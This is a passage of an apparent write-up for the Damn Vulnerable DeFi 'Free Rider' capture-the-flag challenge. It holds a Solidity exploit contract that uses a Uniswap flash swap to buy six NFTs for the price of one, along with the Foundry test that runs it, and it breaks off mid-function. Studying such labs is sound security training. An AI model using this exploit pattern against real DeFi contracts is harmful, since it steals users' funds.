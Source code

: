 ```
        if (++received == 6) {
            address recipient = abi.decode(_data, (address));
            payable(recipient).sendValue(bounty);
        }
```
[POC](./damn-vulnerable-defi/test/free-rider/FreeRider.t.sol) : 

```
    function test_freeRider() public checkSolvedByPlayer {
        Exploit exploit = new Exploit{value:0.045 ether}(
            address(uniswapPair),
            address(marketplace),
            address(weth),
            address(nft),
            address(recoveryManager)
        );
        exploit.attack();
        console.log("balance of attacker:", address(player).balance / 1e15, "ETH");
    }
contract Exploit {
    
    IUniswapV2Pair public pair;
    IMarketplace public marketplace;
    IWETH public weth;
    IERC721 public nft;
    address public recoveryContract;
    address public player;
    uint256 private constant NFT_PRICE = 15 ether;
    uint256[] private tokens = [0, 1, 2, 3, 4, 5];

    constructor(address _pair, address _marketplace, address _weth, address _nft, address _recoveryContract)payable{
        pair = IUniswapV2Pair(_pair);
        marketplace = IMarketplace(_marketplace);
        weth = IWETH(_weth);
        nft = IERC721(_nft);
        recoveryContract = _recoveryContract;
        player = msg.sender;
    }

    function attack() external payable {
         // 1. Request a flashSwap of 15 WETH from Uniswap Pair  
        pair.swap(NFT_PRICE, 0, address(this), "1");
    }

    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external {

        // Access Control
        require(msg.sender == address(pair));
        require(tx.origin == player);

        // 2. Unwrap WETH to native ETH
        weth.withdraw(NFT_PRICE);

        // 3. Buy 6 NFTS for only 15 ETH total
        marketplace.buyMany{value: NFT_PRICE}(tokens);

        // 4. Pay back 15WETH + 0.3% to the pair contract
        uint256 amountToPayBack = NFT_PRICE * 1004 / 1000;
        weth.deposit{value: amountToPayBack}();
        weth.transfer(address(pair), amountToPayBack);

        // 5. Send NFTs to recovery contract so we can get the bounty
```